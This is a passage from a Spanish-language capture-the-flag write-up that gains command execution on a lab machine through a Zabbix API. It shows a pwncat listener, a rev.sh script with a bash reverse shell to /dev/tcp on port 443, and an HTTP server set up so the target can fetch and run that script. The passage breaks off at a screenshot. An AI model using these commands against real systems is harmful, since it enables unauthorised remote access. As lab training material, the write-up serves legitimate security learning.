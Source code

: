 ```
},
"auth": "b8836e5c59399a3792725897cac250fc",

 "id": 1}
```


Y el servidor nos da una respuesta que pinta bien.

```json
{"jsonrpc":"2.0","result":{"itemids":["47183"]},"id":1}
```


Ahora si nos ponemos en escucha de trazas ICMP, podemos ver que efectivamente, se está ejecutando el comando en la máquina víctima y nos está mandando un ping.
```console
sudo tcpdump -i tun0 icmp
[sudo] password for kali:
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
18:11:02.829832 IP 10.129.231.176 > 10.10.14.197: ICMP echo request, id 1, seq 1, length 64
18:11:02.830000 IP 10.10.14.197 > 10.129.231.176: ICMP echo reply, id 1, seq 1, length 64
```

Ahora nos vamos a poner en escucha con `pwncat-cs` por el puerto 443.
```console
pwncat-cs -lp 443
```

Ahora vamos a crear un fichero `rev.sh` donde vamos a crear el script para mandarnos una reverse shell.
```console
cat -p rev.sh
#!/bin/bash

bash -c "bash -i >& /dev/tcp/10.10.14.197/443 0>&1"
```

Vamos a servir este script por el puerto 8081.
```console
python3 -m http.server 8081
```

Ahora creamos el `item` para descargar este script y ejecutarlo en la máquina víctima
![Write-up Image](images/Screenshot_22.png)
